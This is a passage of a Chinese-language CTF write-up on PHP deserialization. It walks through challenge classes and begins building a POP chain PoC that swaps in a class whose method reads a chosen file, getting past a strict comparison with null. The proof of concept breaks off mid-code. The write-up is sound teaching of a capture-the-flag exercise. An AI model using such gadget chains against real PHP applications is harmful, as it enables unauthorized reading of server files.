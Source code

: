 ```php
class pkshow 
{  
    function echo_name()     
    {          
        return "Pk very safe^.^";      
    }  
} 
```

<font style="color:#000000;">接着由于acp中的构造方法中把pkshow类实体化赋值给变量cinder 然而在__ToString魔术方法中的调用了实体化类中的echo_name方法 pkshow类中的echo_name并不是我们想要的 我们的目标是ace类中的echo_name方法 又因为变量cinder是保护型的变量只能通过赋值修改 所以我们要把construct方法里面的pkshow改为ace</font>

<font style="color:#000000;">接着看ace类</font>

```php
class ace
{    
    public $filename;     
    public $openstack;
    public $docker; 
    function echo_name()      
    {   
        $this->openstack = unserialize($this->docker);
        $this->openstack->neutron = $heat;
        if($this->openstack->neutron === $this->openstack->nova)
        {
        $file = "./{$this->filename}";
            if (file_get_contents($file))         
            {              
                return file_get_contents($file); 
            }  
            else 
            { 
                return "keystone lost~"; 
            }    
        }
    }  
}  
```

需要绕过条件才会执行get_file_contents函数 filename为输出的文件名也是需要赋值

```php
$this->openstack = unserialize($this->docker);
        $this->openstack->neutron = $heat;
        if($this->openstack->neutron === $this->openstack->nova)
```

<font style="color:rgb(77, 77, 77);">同一个类中的两个属性进行强比较，neutron有了赋值且赋值是$heat（整体没有出现）而nova又没有，这种情况下看着是无法相等的，但是这样可以利用null来进行比较,换句话说只要dokcer的类是null,哪无论怎么赋值结果都是null</font>

<font style="color:rgb(77, 77, 77);">所以poc</font>

```php
<?php
class acp 
{   
    protected $cinder;  
    public $neutron;
    public $nova;
    function __construct() 
    {      
        $this->cinder = new ace;
    }  
    function __toString()      
    {          
        if (isset($this->cinder))  
```